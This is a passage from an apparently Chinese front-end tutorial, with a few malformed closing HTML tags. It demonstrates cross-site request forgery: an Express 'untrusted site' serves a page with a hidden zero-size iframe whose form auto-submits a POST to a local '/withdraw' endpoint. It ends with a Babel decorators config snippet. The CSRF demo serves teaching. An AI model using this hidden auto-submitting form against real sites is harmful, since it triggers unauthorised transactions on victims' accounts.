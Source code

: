 ```html
```

###### 7.3.3.4 非信任网站 [#](#t657334-非信任网站)

```js
let express = require('express');
let path = require('path');
let app = express();
app.set('view engine','ejs');
app.set('views',path.resolve('views'));
app.engine('html',require('ejs').__express);

app.get('/',function(req,res){
  res.render('csrf.html');
});
app.get('/form',function(req,res){
  res.render('form.html');
});

app.listen(4000);
```

###### 7.3.3.5 csrf [#](#t667335-csrf)

```html
<body>
    <img src="https://www.baidu.com/img/bd_logo1.png"/>
    <iframe src="/form" frameborder="0" style="width:0;height:0">iframe>
body>
```

###### 7.3.3.6 form [#](#t677336-form)

```html
<body>
        <form id="myform" action="http://localhost:3000/withdraw" method="POST">
            <input type="text" name="money" id="money" value="10">
        form>
        <script>
                setTimeout(function(){
                   document.getElementById('myform').submit();
                },100);
            script>
body>
```

##### 7.3.4 支持decorators [#](#t68734-支持decorators)

* [babel-plugin-proposal-decorators](https://babeljs.io/docs/en/babel-plugin-proposal-decorators)

```js
"plugins": [
  ["@babel/plugin-proposal-decorators", { "legacy": true }],
  ["@babel/plugin-proposal-class-properties", { "loose" : true }]
]
```
